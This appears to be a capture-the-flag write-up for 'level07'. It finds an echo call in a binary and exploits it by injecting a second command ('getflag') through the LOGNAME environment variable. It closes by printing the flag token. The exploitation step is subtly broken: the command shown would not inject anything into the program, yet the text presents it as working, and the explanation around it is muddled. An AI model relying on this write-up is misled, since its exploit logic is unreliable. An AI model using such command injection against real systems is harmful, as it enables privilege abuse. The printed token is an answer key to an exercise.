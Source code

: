 # level07

1. Files found in `~/` :

```bash
./level07
```

2. Binary analysis

```bash
strings level07
```

One line catches our attention :

```bash
/bin/echo %s 
```

The script therefore displays a variable named `level07`. We will grep all environment variables named `level07`, and two are retained :

```bash
USER=level07
LOGNAME=level07
```

3. Exploitation

Rename `LOGNAME` to escape `echo` and chain `getflag` :

```bash
LOGNAME=; getflag
./level07
```

The execution launches `./level07` to execute the expected `echo` command, then `; getflag`.

```bash
echo $LOGNAME; getflag
```

4. Token discovered

The token is : `fiumuikeil55xe9cu4dood66h`

